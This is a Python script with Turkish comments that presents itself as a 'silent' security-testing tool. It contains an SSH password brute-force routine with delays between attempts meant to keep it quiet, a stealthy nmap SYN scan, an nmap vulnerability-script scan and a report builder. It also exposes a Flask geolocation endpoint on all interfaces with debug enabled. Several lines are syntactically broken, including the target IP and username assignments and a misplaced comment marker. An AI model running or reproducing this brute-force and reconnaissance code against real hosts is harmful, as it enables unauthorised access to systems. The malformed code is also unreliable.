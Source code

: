 {
# import logging
import json
import os
import smtplib
import paramiko
import nmap
import random
import time
from datetime import datetime
from flask import Flask, request, jsonify

app = Flask(__name__)

# Loglama ayarları
def setup_logger(log_file):
    logging.basicConfig(
        filename=log_file,
        filemode='a',  # Dosyaya ekleme modu
        format='%(asctime)s - %(levelname)s - %(message)s',
        level=logging.INFO
    )

# Log mesajı kaydetme
def log_event(event_message, level='info'):
    if level == 'info':
        logging.info(event_message)
    elif level == 'warning':
        logging.warning(event_message)
    elif level == 'error':
        logging.error(event_message)
    elif level == 'debug':
        logging.debug(event_message)

# Brute-force SSH saldırısı (sessiz ve zaman gecikmeli)
def brute_force_ssh(ip, username, wordlist, delay=2):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    for password in wordlist:
        try:
            ssh.connect(ip, username=username, password=password, timeout=3)
            log_event(f"Başarılı SSH bağlantısı: {username}@{ip} - Şifre: {password}", level='info')
            ssh.close()
            return password  # Başarılı şifre bulundu
        except paramiko.AuthenticationException:
            log_event(f"SSH giriş başarısız: {password}", level='debug')
            time.sleep(delay)  # Her deneme arasında gecikme ekleniyor
            continue  # Şifre yanlış, denemeye devam et
        except Exception as e:
            log_event(f"SSH brute-force hatası: {e}", level='error')
            return None
    log_event("Brute-force saldırısı tamamlandı ancak doğru şifre bulunamadı.", level='error')
    return None

# Sessiz port taraması (SYN tarama)
def nmap_scan(ip):
    scanner = nmap.PortScanner()
    scanner.scan(ip, '1-1024', arguments='-sS')  # SYN taraması, gizli ve hızlı
    open_ports = []

    for host in scanner.all_hosts():
        for proto in scanner[host].all_protocols():
            ports = scanner[host][proto].keys()
            for port in ports:
                if scanner[host][proto][port]['state'] == 'open':
                    service = scanner[host][proto][port]['name']
                    version = scanner[host][proto][port].get('version', 'unknown')
                    open_ports.append({'port': port, 'service': service, 'version': version})

    return open_ports

# Zafiyet taraması
def vulnerability_scan(ip):
    scanner = nmap.PortScanner()
    scanner.scan(ip, '1-1024', arguments='--script vuln')  # Zafiyet taraması betiği ekleniyor
    open_ports = []

    for host in scanner.all_hosts():
        for proto in scanner[host].all_protocols():
            ports = scanner[host][proto].keys()
            for port in ports:
                if scanner[host][proto][port]['state'] == 'open':
                    service = scanner[host][proto][port]['name']
                    version = scanner[host][proto][port].get('version', 'unknown')
                    vulnerabilities = scanner[host][proto][port].get('script', {}).get('vuln', 'No vulnerabilities found')
                    open_ports.append({
                        'port': port, 
                        'service': service, 
                        'version': version,
                        'vulnerabilities': vulnerabilities
                    })

    return open_ports

# Sessiz rapor oluşturma ve kaydetme
def create_security_report(open_ports, found_cves, successful_attacks, test_durations, username):
    report = {
        'Report Generated At': datetime.now().strftime("%Y-%m-%d %H:%M:%S"),
        'Username': username,  # Kullanıcı adını ekle
        'Open Ports': open_ports,
        'Found CVEs': found_cves,
        'Successful Attacks': successful_attacks,
        'Test Durations': test_durations
    }
    return report

# Sessiz SSH brute-force saldırısı için hedef belirleme
def perform_brute_force_attack():
    target_ip"  # Hedef e-posta adresi
    username =usetname"  # Yönetici e-posta adresi
    wordlist_file = input("Wordlist dosyasının yolunu girin (şifre listesi): ")
    
    # Şifre listesini oku
    try:
        with open(wordlist_file, 'r') as file:
            wordlist = [line.strip() for line in file.readlines()]
    except IOError:
        log_event("Wordlist dosyası açılamadı.", level='error')
        return None

    # SSH brute-force saldırısı başlat
    return brute_force_ssh(target_ip, username, wordlist, delay=5)

# Geolocation
@app.route('/geolocation', methods=['POST'])
def get_geolocation():
    data = request.get_json()
    if 'latitude' in data and 'longitude' in data:
        latitude = data['latitude']
        longitude = data['longitude']
        log_event(f"Geolocation request received: Latitude {latitude}, Longitude {longitude}")
        return jsonify({
            'status': 'success',
            'latitude': latitude,
            'longitude': longitude
        })
    else:
        log_event("Invalid geolocation data received.", level='error')
        return jsonify({'status': 'error', 'message': 'Invalid data'}), 400

# Ana program (sessiz modda çalıştırma)
if __name__ == "__main__":
    log_file = 'security_tests.log'
    setup_logger(log_file)

    # Flask sunucusunu başlat
    app.run(host='0.0.0.0', port=5000, debug=True)
}

